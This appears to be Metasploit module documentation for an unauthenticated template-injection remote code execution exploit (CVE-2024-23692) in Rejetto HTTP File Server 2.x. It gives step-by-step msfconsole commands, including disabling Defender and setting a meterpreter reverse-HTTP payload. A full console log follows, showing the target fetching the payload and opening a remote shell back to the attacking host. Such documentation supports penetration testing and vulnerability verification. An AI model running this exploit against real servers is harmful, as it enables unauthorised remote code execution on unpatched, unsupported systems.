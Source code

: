 ## Vulnerable Application
The Rejetto HTTP File Server (HFS) version 2.x is vulnerable to a unauthenticated server side template
injection (SSTI) vulnerability. An remote unauthenticated attacker can execute code with the privileges
of the user account running the HFS.exe server process. This exploit has been tested to work against version
2.4.0 RC7 and 2.3m. The Rejetto HTTP File Server (HFS) version 2.x is no longer supported by the maintainers
and no patch is available. Users are recommended to upgrade to version 3.x.

## Testing
[Download](https://github.com/rejetto/hfs2/releases/download/v2.4-rc06/hfs.exe) and a vulnerable version of HTTP
File Server (HFS). To run this server, simply execute the HFS.exe binary. By default the server will listen for
HTTP connections on port 80.

The exploit has been tested against versions:
* 2.4.0 RC7
* 2.3m

## Verification Steps
Note: On Windows, disable Defender if you are using the default payloads.

1. Start msfconsole
2. `use exploit/windows/http/rejetto_hfs_rce_cve_2024_23692`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set payload cmd/windows/http/x64/meterpreter_reverse_http`
5. `set LHOST eth0`
6. `set LPORT 4444`
7. `check`
8. `exploit`

## Scenarios

### Automatic

```
msf6 > use exploit/windows/http/rejetto_hfs_rce_cve_2024_23692
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > set RHOSTS 192.168.86.35
RHOSTS => 192.168.86.35
msf6 exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > set payload cmd/windows/http/x64/meterpreter_reverse_http
payload => cmd/windows/http/x64/meterpreter_reverse_http
msf6 exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > set LHOST eth0
LHOST => eth0
msf6 exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > set LPORT 4444
LPORT => 4444
msf6 exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > show options

Module options (exploit/windows/http/rejetto_hfs_rce_cve_2024_23692):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.86.35    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI                   yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter_reverse_http):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                           no        Comma-separate list of extensions to load
   EXTINIT                              no        Initialization strings for extensions
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      gnwWBKQz         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               eth0             yes       The local listener hostname
   LPORT               4444             yes       The local listener port
   LURI                                 no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > check
[+] 192.168.86.35:80 - The target is vulnerable. Rejetto HFS version 2.4.0 RC7
msf6 exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > exploit 

[*] Started HTTP reverse handler on http://192.168.86.42:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Rejetto HFS version 2.4.0 RC7
[!] http://192.168.86.42:4444 handling request from 192.168.86.35; (UUID: ykybl99e) Without a database connected that payload UUID tracking will not work!
[*] http://192.168.86.42:4444 handling request from 192.168.86.35; (UUID: ykybl99e) Redirecting stageless connection from /pBzS1uPGeqRa91v1PJaNDwwtxXK-KTpGms8g with UA 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0'
[!] http://192.168.86.42:4444 handling request from 192.168.86.35; (UUID: ykybl99e) Without a database connected that payload UUID tracking will not work!
[*] http://192.168.86.42:4444 handling request from 192.168.86.35; (UUID: ykybl99e) Attaching orphaned/stageless session...
[!] http://192.168.86.42:4444 handling request from 192.168.86.35; (UUID: ykybl99e) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.35:31348) at 2024-06-06 16:38:33 +0100

meterpreter > getuid
Server username: testing-vm\user
meterpreter > sysinfo
Computer        : TESTING-VM
OS              : Windows 11 (10.0 Build 22631).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
